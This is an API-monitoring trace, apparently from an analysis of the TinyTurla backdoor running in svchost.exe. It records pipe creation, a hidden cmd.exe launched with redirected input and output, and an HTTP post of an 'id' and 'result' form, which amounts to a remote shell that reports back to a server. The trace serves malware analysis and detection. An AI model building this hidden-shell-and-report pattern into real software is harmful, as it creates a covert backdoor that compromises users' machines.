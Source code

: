 ```html
[PAR] PHANDLE               hReadPipe        : 0x000000E4600DF890
[PAR] PHANDLE               hWritePipe       : 0x000000E4600DF880
[PAR] LPSECURITY_ATTRIBUTES lpPipeAttributes : 0x000000E4600DF8A8
[PAR] DWORD                 nSize            : 0xdcd8
[RET] 0x7fff33b845fb in [tinyturla.dll]

[ * ] [pid 0x250][tid 0x410] c:\windows\system32\svchost.exe
[API] <CreatePipe>
[PAR] HANDLE  hReadPipe  : 0x924
[PAR] HANDLE  hWritePipe : 0x934
[RES] BOOL 0x1

[ * ] [pid 0x250][tid 0x410] c:\windows\system32\svchost.exe
[API] <CreatePipe> in [KERNEL32.DLL] 
[PAR] PHANDLE               hReadPipe        : 0x000000E4600DF898
[PAR] PHANDLE               hWritePipe       : 0x000000E4600DF888
[PAR] LPSECURITY_ATTRIBUTES lpPipeAttributes : 0x000000E4600DF8A8
[PAR] DWORD                 nSize            : 0xa00000
[RET] 0x7fff33b8461e in [tinyturla.dll]

[ * ] [pid 0x250][tid 0x410] c:\windows\system32\svchost.exe
[API] <CreatePipe>
[PAR] HANDLE  hReadPipe  : 0x944
[PAR] HANDLE  hWritePipe : 0x940
[RES] BOOL 0x1

[ * ] [pid 0x250][tid 0x410] c:\windows\system32\svchost.exe
[API] <CreateProcessA> in [KERNEL32.DLL] 
[PAR] LPCTSTR               lpApplicationName    : 0x0 (null)
[PAR] LPCTSTR               lpCommandLine        : 0x00007FFF33BB0888
[STR]                       -> "C:\Windows\System32\cmd.exe"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes  : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes   : 0x0
[PAR] BOOL                  bInheritHandles      : 0x1
[PAR] DWORD                 dwCreationFlags      : 0x8000000 (CREATE_NO_WINDOW)
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCSTR                lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOA        lpStartupInfo        : 0x000000E4600DF8E0
[FLD]                       -> lpDesktop   = 0x0 (null)
[FLD]                       -> lpTitle     = 0x0 (null)
[FLD]                       -> dwFlags     = 0x100 (STARTF_USESTDHANDLES)
[FLD]                       -> wShowWindow = 0x0
[FLD]                       -> hStdInput   = 0x924    <--- hReadPipe created above>
[FLD]                       -> hStdOutput  = 0x940    <--- hWritePipe created above>
[FLD]                       -> hStdError   = 0x940
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x000000E4600DF8C0
[RET] 0x7fff33b846b0 in [tinyturla.dll]

[...]

[ * ] [pid 0x250][tid 0x990] c:\windows\system32\svchost.exe
[API] <WinHttpWriteData> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest                 : 0x000000E460685800
[PAR] LPCVOID   lpBuffer                 : 0x000000E4601A7F70
[STR]           -> "---"
[STR]              "Content-Disposition: form-data;name="id""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "ea2ced84"
[STR]              "---"
[STR]              "Content-Disposition: form-data;name="result""
[STR]              "Content-Type: text/plain"
[STR]              ""
```